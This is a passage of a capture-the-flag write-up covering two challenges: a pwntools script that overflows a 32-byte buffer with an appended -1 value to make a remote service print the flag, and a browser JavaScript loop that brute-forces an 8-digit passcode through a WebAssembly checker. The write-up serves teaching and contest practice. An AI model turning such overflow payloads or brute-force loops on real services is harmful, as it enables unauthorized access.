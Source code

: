 To solve the challenge, I send 32 bytes of arbitrary data, followed by -1 encoded for 4 bytes, which is `\xff\xff\xff\xff`. The flag is printed out.

```python
from pwn import *
p = remote('example.com', 4000)
p.recvuntil(b'Help him: ')
payload = b'a' * 32 + b'\xFF\xFF\xFF\xFF'
p.sendline(payload)
p.interactive()
```

## Web Safe Locker

The goal of the challenge is to find the passcode.

![Safe locker page](/assets/image/cryptoverse-ctf-2023-writeup/web-safe-locker.png)

The relevant code is within a JavaScript module on this page. The actual check appears to be done with web assembly. However, without reversing the web assembly, I can still bruteforce the passcode with the JavaScript code. There are only 10,000,000 possible passcodes, and it is possible to bruteforce, however the web page crashes if I try to bruteforce all the passcodes at once. So I bruteforce the passcode in batches, also this allows me to do them parallelly in different browser tabs.

```javascript
import('/passCheck.js').then(m => m.default()).then(m => password_checker = m.cwrap('checker', 'boolean', ['string']))
for (const p of Array(10000000).keys()) {
    let s = '00000000' + (p + 10000000);
    s = s.substr(s.length - 8)
    if (password_checker(s, 8)) {
        console.log(s);
    }
}
```
